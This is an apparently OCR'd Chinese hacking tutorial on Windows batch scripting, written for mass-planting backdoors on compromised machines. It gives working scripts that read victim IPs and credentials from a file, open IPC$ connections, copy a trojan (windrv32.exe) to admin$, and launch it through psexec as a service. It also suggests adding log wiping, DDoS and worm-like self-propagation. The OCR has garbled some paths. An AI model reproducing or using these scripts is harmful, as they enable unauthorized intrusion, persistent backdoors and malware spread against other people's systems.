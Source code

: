 你有没有过手里有大量肉鸡等着你去种后门＋木马呢？，当数量特别多的时候，原本很开心的一件事都会变得很郁闷：）。文章开头就谈到使用批处理文件，可以简化日常或重复性任务。那么如何实现呢？呵呵，看下去你就会明白了。
主要命令也只有一条：（在批处理文件中使用 FOR 命令时，指定变量使用 %%variable）
@for /f "tokens=1,2,3 delims= " %%i in (victim.txt) do start call door.bat %%i %%j %%k
tokens的用法请参见上面的sample1，在这里它表示按顺序将victim.txt中的内容传递给door.bat中的参数%i %j %k。
而cultivate.bat无非就是用net use命令来建立IPC$连接，并copy木马＋后门到victim，然后用返回码（If errorlever =）来筛选成功种植后门的主机，并echo出来，或者echo到指定的文件。
delims= 表示vivtim.txt中的内容是一空格来分隔的。我想看到这里你也一定明白这victim.txt里的内容是什么样的了。应该根据%%i %%j %%k表示的对象来排列，一般就是 ip password username。
代码雏形：
--------------- cut here then save as a batchfile(I call it main.bat ) ---------------------------
@echo off
@if "%1"=="" goto usage
@for /f "tokens=1,2,3 delims= " %%i in (victim.txt) do start call IPChack.bat %%i %%j %%k
@goto end
:usage
@echo run this batch in dos modle.or just double-click it.
:end
--------------- cut here then save as a batchfile(I call it main.bat ) ---------------------------

------------------- cut here then save as a batchfile(I call it door.bat) -----------------------------
@net use /%1ipc$ %3 /u:"%2"
@if errorlevel 1 goto failed
@echo Trying to establish the IPC$ connection …………OK
@copy windrv32.exe/%1admin$system32 && if not errorlevel 1 echo IP %1 USER %2 PWD %3 >>ko.txt
@psexec /%1 c:winntsystem32windrv32.exe
@psexec /%1 net start windrv32 && if not errorlevel 1 echo %1 Backdoored >>ko.txt
:failed
@echo Sorry can not connected to the victim.
----------------- cut here then save as a batchfile(I call it door.bat) --------------------------------
这只是一个自动种植后门批处理的雏形，两个批处理和后门程序（Windrv32.exe）,PSexec.exe需放在统一目录下.批处理内容
尚可扩展,例如:加入清除日志+DDOS的功能,加入定时添加用户的功能,更深入一点可以使之具备自动传播功能(蠕虫).此处不多做叙述,有兴趣的朋友可自行研究.
## 二.如何在批处理文件中使用参数

批处理中可以使用参数，一般从1%到 9%这九个，当有多个参数时需要用shift来移动，这种情况并不多见，我们就不考虑它了。
sample1：fomat.bat
@echo off
if "%1"=="a" format a:
:format
@format a:/q/u/auotset
@echo please insert another disk to driver A.
@pause
@goto fomat
这个例子用于连续地格式化几张软盘，所以用的时候需在dos窗口输入fomat.bat a，呵呵,好像有点画蛇添足了～^_^
sample2：
当我们要建立一个IPC$连接地时候总要输入一大串命令，弄不好就打错了，所以我们不如把一些固定命令写入一个批处理，把肉鸡地ip password username 当着参数来赋给这个批处理，这样就不用每次都打命令了。
@echo off
@net use /1%ipc$ "2%" /u:"3%" 注意哦，这里PASSWORD是第二个参数。
@if errorlevel 1 echo connection failed
怎么样,使用参数还是比较简单的吧？你这么帅一定学会了^_^.
## 三.如何使用组合命令(Compound Command)
### 1.&
Usage：第一条命令 & 第二条命令 [& 第三条命令...]
用这种方法可以同时执行多条命令，而不管命令是否执行成功
Sample：
C:>dir z: & dir c:Ex4rch
The system cannot find the path specified.
Volume in drive C has no label.
Volume Serial Number is 0078-59FB